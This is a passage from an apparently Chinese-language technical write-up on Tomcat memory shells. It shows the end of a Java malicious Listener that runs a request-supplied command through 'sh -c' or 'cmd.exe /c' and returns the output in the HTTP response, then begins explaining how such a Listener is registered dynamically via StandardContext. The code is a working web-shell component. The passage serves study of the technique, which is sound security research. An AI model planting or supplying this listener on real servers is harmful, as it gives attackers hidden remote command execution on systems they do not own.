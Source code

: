 ```java
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/5.png)

​	上文分析了如何构造恶意的`Listener`，接着来看看如何动态注册上文构造的恶意的`Listener`。在之前分析`Tomcat Architecture`时，提到过在`org.apache.catalina.core.StandardContext`类的`startInternal`方法中，会分别调用`listenerStart`、`filterStart`和`loadOnStartup`来分别触发`Listener`、`Filter`、`Servlet`的构造加载。
